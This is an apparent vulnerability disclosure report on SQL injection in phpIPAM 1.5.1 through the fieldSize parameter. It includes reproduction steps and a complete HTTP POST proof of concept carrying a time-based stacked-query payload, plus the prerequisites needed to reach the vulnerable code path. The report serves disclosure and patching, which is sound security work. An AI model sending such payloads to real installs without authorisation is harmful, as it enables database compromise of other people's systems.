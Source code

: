# Vulnerability Type

SQL Injection

# Description

SQL Injection in GitHub repository phpipam/phpipam prior to v1.5.2.

# PoC Report

 ## Environment Setup

 - Software Link: https://github.com/phpipam/phpipam/
 - Version: 1.5.1
 - Tested on: Windows 10

 ## Exploit Description

The `fieldSize` parameter is vulnerable to SQL injection due to insufficient filtering, and exploitation requires satisfying multiple path constraints within the application flow.

 ## Steps to Reproduce

  1. Login as an admin user.
   2. Intercept and send the malicious request using a web proxy tool such as Burp Suite, ensure it includes a valid session cookie and csrf token.
   3. Observe the result:

![Image](assets/CVE-2023-1211.png)

 ## Proof Of Concept
```
POST /app/admin/custom-fields/edit-result.php HTTP/1.1
Host: phpipam
Cookie: PHPSESSID=<valid_session_id>; csrf_cookie=<valid_csrf_token>
Content-Type: application/x-www-form-urlencoded

csrf_cookie=<valid_csrf_token>&action=add&name=custom_sqli_test&fieldType=enum&fieldSize=0)%3B+SELECT+SLEEP(10)%3B+--+&table=devices&Comment=sql_poc&NULL=YES

**Prerequisites:**
1. Valid authenticated session (PHPSESSID cookie)
2. Valid CSRF token (obtain from `/admin/custom-fields/` page first)
3. Target table must exist (default 'devices' table used)
4. Field type must be enum/set to reach vulnerable code path

**Manual Test Steps:**
1. Login to phpIPAM
2. Visit `/admin/custom-fields/` to get CSRF token
3. Send POST request with above payload

**Note:** Replace `<valid_session_id>` and `<valid_csrf_token>` with actual values from authenticated session. The `fieldSize` parameter injects SQL through enum/set type definition context.
```

